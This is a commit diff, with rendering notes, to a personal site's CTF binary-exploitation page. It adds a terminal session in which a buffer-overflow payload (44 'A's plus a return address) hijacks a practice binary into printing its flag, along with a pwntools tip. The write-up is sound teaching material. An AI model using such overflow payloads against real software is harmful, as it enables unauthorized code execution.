

Before and after one commit to Connor-McCartney/Connor-McCartney.github.io, a Jekyll site: the page built from _pages/misc/pwn.md, in a window 1280 px wide and 1400 px high, scrolled down 3953 px. Shown: the top 1380 px of the window at 91% size, without its empty margins (0-1044 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; before the commit the page ends 4710 px from its top, so only the background shows below that.

Commit message:
Update pwn.md

````diff
--- a/_pages/misc/pwn.md
+++ b/_pages/misc/pwn.md
@@ -184,3 +184,28 @@ Creating the payload:
 import sys
 sys.stdout.buffer.write(b"A"*44 + bytes.fromhex('f6910408'))
 ```
+
+```
+[~/Desktop]
+$ python create_payload.py > payload
+
+[~/Desktop]
+$ ./vuln < payload
+Please enter your string:
+Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
+Please create 'flag.txt' in this directory with your own debugging flag.
+
+[~/Desktop]
+$ echo "testflag" > flag.txt
+
+[~/Desktop]
+$ ./vuln < payload
+Please enter your string:
+Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
+testflag
+Segmentation fault (core dumped)
+```
+
+It works locally!
+
+You can also use this function `from pwn import p32` to avoid manually converting to little endian.
````
